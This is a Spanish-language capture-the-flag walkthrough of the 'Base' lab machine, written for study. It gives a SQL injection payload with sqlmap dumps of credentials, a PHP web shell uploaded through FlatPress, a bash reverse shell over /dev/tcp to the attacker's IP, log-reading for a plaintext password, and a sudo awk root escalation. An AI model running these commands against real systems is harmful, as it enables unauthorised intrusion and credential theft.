




Máquina "Base" de [The Hackers Labs](https://thehackerslabs.com)

Autor: r0dgar

Dificultad: Avanzado

# RECONOCIMIENTO

Comenzamos lanzando un escaneo de `nmap` a la ip que se nos brindó (en mi caso "192.168.153.55"):

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 192.168.153.55 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Tue Sep 17 18:09:11 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 192.168.153.55
Nmap scan report for 192.168.153.55
Host is up, received arp-response (0.0026s latency).
Scanned at 2024-09-17 18:09:12 -03 for 10s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 c8:5f:17:62:8c:26:0a:7b:b2:c6:07:33:31:64:84:30 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPc+sW2rJ9spBEuudmTE24Jhc7h4M+q77B8rG7d1f/L4H1Yc5TfhsQgYpm9JkS1liOTn8pBNyt2RZgjE3KdDDAU=
|   256 e3:92:58:d8:50:ac:00:5a:49:02:d7:e9:33:18:47:8c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIO0KQXb6whCSXP4pzCxG0CRwQ0Z9OGz4zu9PHRMS5498
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
|_http-favicon: Unknown favicon MD5: 315957B26C1BD8805590E36985990754
|_http-generator: FlatPress fp-1.2.1
|_http-title: FlatPress
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.62 (Debian)
8080/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
|_http-title: Search Page
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:C5:86:BC (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep 17 18:09:23 2024 -- 1 IP address (1 host up) scanned in 11.51 seconds
```

Como vemos, está abierto el puerto `22 de OpenSSH` y el `80 y 8080 con ambos corriendo apache httpd`.

Como vemos que está abierto el 80, por lo que continuaremos desde el navegador.

#### Puerto 80:



Tenemos un flatpress, por ahora no podemos hacer nada, por lo que tendremos que buscar credenciales.

#### Puerto 8080:



Al parecer podemos buscar usuarios, ya que si buscamos "Juan" (porque hay un mensaje que dice "Hola Juan") veremos como una base de datos, sabiendo esto podriamos probar en poner una comilla y ver que pasa. Si lo hacemos veremos que queda en blanco, pero para confirmar si estamos realmente frente a un `SQLi`, podemos poner un payload simple que nos debe mostrar todos los usuarios: `'or 1=1-- -`.



Como vemos nos mostró todos los usuarios, por lo que hemos confirmado la presencia de un sql injection.

Ahora usaremos `sqlmap` para ver las demás bases de datos:

```css
sqlmap -u "http://192.168.153.55:8080/index.php" --forms --batch --dbs
```

 

```
available databases [6]:
[*] FlatPress
[*] information_schema
[*] mysql
[*] Nombres
[*] performance_schema
[*] sys
```

tenemos la base de datos del "Flatpress", por lo que veremos las tablas

```css
sqlmap -u "http://192.168.153.55:8080/index.php" --forms --batch -D FlatPress --tables
```

```css
[1 table]
+-------+
| login |
+-------+
```

viendo que solo hay una simplemente la leeremos

```css
sqlmap -u "http://192.168.153.55:8080/index.php" --forms --batch -D FlatPress -T login --dump
```

```css
+----+--------+-----------------------+
| id | user   | password              |
+----+--------+-----------------------+
| 1  | r0dgar | SNIETbkGBCnhXXXXXXXXX |
+----+--------+-----------------------+
```

Ya tenemos credenciales, por lo que nos logeamos y listo.

# INTRUSION

Si vamos a `Maintain > Check for updates` podremos ver que es la versión 1.2.1, por lo que si buscamos un exploit o algo de información, encontraremos que se pueden subir archivos que deriva a un RCE(remote code execution). Si lo leemos bien, veremos que solo tenemos que ir a `Uploader` y ahí subir un archivo ".php" que contenga lo siguiente:

```css
GIF89a;
<?php
system($_GET['cmd']);
?>
```

Una vez subido vamos a `Media manager` y tocamos el nombre de nuestro payload, ahora simplemente escuchamos con netcat:

```css
nc -nlvp <puerto>
```

y en la url ponemos lo siguiente:

```css
<url>?cmd=bash -c 'bash -i >%26 /dev/tcp/<nuestra ip>/<puerto> 0>%261'
```

# ESCALADA DE PRIVIEGIOS

### www-data

Antes de hacer algo haremos el tratamiento de la tty, para hacerlo ejecutamos estos comandos:

```css
script /dev/null -c bash # Lo ejecutamos y presionamos ctrl+Z
stty raw -echo;fg # Lo ejecutamos y escribimos "reset xterm", luego enter
export TERM=xterm && export SHELL=bash
```

ahora ya está todo listo para continuar.

Si vamos a "/opt/", veremos un hash, por lo que si nos lo guardamos y lo crackeamos con `john`, obtendremos una contraseña "secret". Ahora solo probamos en ejecutar `su <usuario>` y poner la contraseña. Una vez hecho eso pivotaremos a "pedro".

### Pedro

Si ejecutamos `id`, veremos lo siguiente:

```css
uid=1001(pedro) gid=1001(pedro) grupos=1001(pedro),4(adm)
```

como vemos pertenecemos al grupo "adm", por lo que ahora buscaremos archivos que pertenezcan a ese grupo:

```css
find / -group adm 2>/dev/null
```

```css
/var/log/apt/term.log
/var/log/apache2
/var/log/apache2/access.log.1
/var/log/apache2/other_vhosts_access.log
/var/log/apache2/access.log
/var/log/apache2/error.log.2.gz
/var/log/apache2/access.log.2.gz
/var/log/apache2/other_vhosts_access.log.1
/var/log/apache2/error.log
/var/log/apache2/error.log.1
/var/log/cups/access_log.2.gz
/var/log/cups/access_log.1
/var/log/cups/error_log
/var/log/cups/access_log
```

Al parecer podemos leer logs del sistema.

Si nos fijamos en la carpeta "/home/" veremos que hay un usuario llamado "flate", por lo que podriamos leer algunos logs pero filtrando por la palabra "flate":

```css
grep "flate" /var/log/.....
```

luego de leer algunos, vemos esto en `/var/log/apache2/access.log.1`:

```css
203.0.113.56 - flate [12/Sep/2024:12:03:55 +0000] "POST /login HTTP/1.1" 401 4812 "http://example.com/login" "Mozilla/5.0 (Windows NT 10.0; Win64; x64)" "username=flate&password=HPAbcmOgSjidaoWkXUQjw"
```

Ahora que tenemos la contraseña de "flate", escalaremos nuevamente con `su flate` y su contraseña.

### Flate

Si ejecutamos `sudo -l` para ver si podemos ejecutar algo como root, veremos lo siguiente:

```css
Matching Defaults entries for flate on TheHackersLabs-Base:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User flate may run the following commands on TheHackersLabs-Base:
    (root) NOPASSWD: /usr/bin/awk
```

Por lo que si buscamos en [GTFObins](https://gtfobins.github.io/) veremos que podemos escalar con `awk` si ejecutamos esto:

```css
sudo awk 'BEGIN {system("/bin/bash")}'
```

Una vez ejecutado, **ya seremos root**:



Gracias por leer....